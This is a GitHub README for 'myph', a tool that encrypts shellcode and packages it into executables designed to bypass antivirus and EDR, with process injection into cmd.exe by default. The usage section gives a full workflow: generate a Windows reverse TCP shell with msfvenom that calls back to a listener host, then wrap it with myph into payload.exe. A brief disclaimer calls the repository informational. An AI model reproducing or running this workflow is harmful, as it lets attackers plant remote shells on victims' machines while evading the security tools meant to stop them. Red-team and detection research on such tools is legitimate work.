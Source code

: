 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## Usage

```bash
Usage:
  myph [flags]

Flags:
  -r, --arch string          architecture compilation target (default "amd64")
  -e, --encryption encKind   encryption method. (allowed: AES, RSA, XOR) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption)
  -o, --os string            OS compilation target (default "windows")
  -f, --outdir string        output directory (default "myph-out")
  -p, --process string       target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string     shellcode path (default "msf.raw")
  -v, --version              version for myph
```


This tool uses the CRT method. If you don't know what that is, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --outdir something

# you should find your payload here
file ./something/payload.exe
```
